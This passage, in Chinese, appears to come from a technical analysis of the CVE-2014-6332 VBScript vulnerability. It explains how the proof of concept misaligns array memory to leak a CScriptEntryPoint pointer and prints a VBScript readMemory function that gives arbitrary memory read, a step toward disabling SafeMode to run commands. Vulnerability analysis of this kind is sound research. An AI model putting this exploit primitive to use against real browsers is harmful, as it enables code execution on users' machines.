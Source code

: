 此时`arrayA(arraySize+2)`中存放的就是`CScriptEntryPoint`对象指针，但是由于其类型为`VT_NULL`无法读出其值。所以需要通过内存错位进行修改。poc中`arrayB(0) = 6.36598737437801E-314`对应的内存值为`0x0000000300000003`,而`0x3`对应的类型为`VT_I4`，即`vbLong`型，从而可以读取到`CScriptEntryPoint`对象指针:

![modify-type](/media/cve-2014-6332/modify-type.png)

此时，通过`arrayA(arraySize+2)`便可读取到`CScriptEntryPoint`对象指针的值。下一步便是需要通过内存任意地址读写修改`Safemode`标志位的值从而能够执行命令。

#### 实现内存地址任意读

在poc中，实现内存地址读的函数为:

```vbscript
function readMemory(addr)
    On Error Resume Next
    redim  Preserve arrayA(overSize)
    arrayB(0) = 0
    arrayA(arraySize + 2) = addr + 4
    arrayB(0) = 1.69759663316747E-313
    readMemory = lenb(arrayA(arraySize + 2))
    arrayB(0) = 0
    redim  Preserve arrayA(arraySize)
end function
```
